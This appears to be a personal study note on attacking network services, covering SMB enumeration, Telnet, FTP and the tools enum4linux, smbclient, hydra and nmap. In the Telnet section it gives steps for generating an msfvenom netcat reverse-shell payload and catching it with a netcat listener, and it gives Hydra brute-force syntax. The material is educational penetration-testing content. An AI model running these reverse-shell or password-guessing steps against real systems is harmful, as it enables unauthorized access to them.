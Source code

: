 ## SMB
- SMB, Server Message Block Protocol, is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.
- Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network.
- Once clients have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.
- Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.
- SMB runs on ports 139/tcp netbios-ssn and 445/tcp microsoft-ds
  
### Enumeration
- It is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.
- It can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.
- `enum4linux [options] ip` can be used to enumerate SMB shares on both Windows and Linux systems.
- After getting to know the share names on a server, We can remotely access the SMB share using the syntax: `smbclient //[IP]/[SHARE]` Followed by the tags: -U [name] : to specify the user -p [port] : to specify the port

## Telnet
- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.
- You can connect to a telnet server with the following syntax: `telnet [ip] [port]`
- Telnet has been replaced by SSH in most implementations in some applications due to the vulnerabilities discovered and that it sends messages in clear text.
> A "shell" is a command-line interface that allows users to interact with an operating system, execute commands, and manage files and processes. A "reverse shell" is a type of shell in which the target machine initiates a connection back to the attacker's machine, allowing the attacker to gain remote access and control over the target system. This is achieved by running a malicious payload on the target system, which establishes a network connection to a specified IP address and port controlled by the attacker. Once the connection is established, the attacker can execute commands and perform various actions on the compromised system as if they had physical access to it.
- After we get to know telnet port and that is open, we can try to execute commands on the target machine through a reverse shell:
  1. First we need to test if the local-target machines are able to reach eachother by starting a tcpdump listener on my local machine `sudo tcpdump ip proto \\icmp -i tun0` and pinging my machine from the telnet session `.RUN ping <my_machine_IP>`.
  2. Then we can generate a reverse shell payload using ***msfvenom***.This will generate and encode a netcat reverse shell for us. Here's the syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=<local tun0 ip (our machine IP)> lport=<<listening port>> R`.
  3. In another terminal, we should start a netcat listener on our machine: `nc -lvp <listening port>`.
  4. Then we copy paste the payload generated by ***msfvenom*** to execute through the telnet session.
  5. By then, we can execute commands from our machine through netcat.

## FTP
- File Transfer Protocol (FTP) is a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this.
- FTP session operates using two channels: [1] a command (sometimes called the control) channel [2] a data channel.
- The FTP server may support either Active or Passive connections, or both.
  - In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
  - In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
- Once we know that FTP port is open, we can try connecting by `ftp <IP>`. sometimes we can login anonymously to ftp server, We can do this using by typing entering "anonymous" as username, and no password when prompted.

#### Hydra
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Command syntax is as following: `hydra -t <Number of parallel connections per target> -l <username> -P <wordlist.txt file path> -vV <Target_IP> <service like ftp, smb, etc>`.

#### NMAP
- To look for open ports in the most common 1000 ports: `nmap ip`
- for all ports: `nmap -p- ip`, for range of ports `nmap -p x-y ip`
- `-sV`: Enables service version detection. It attempts to determine the version of the running services on the target.
- `-A`: Aggressive scan. It includes additional features like OS detection, script scanning, and traceroute.
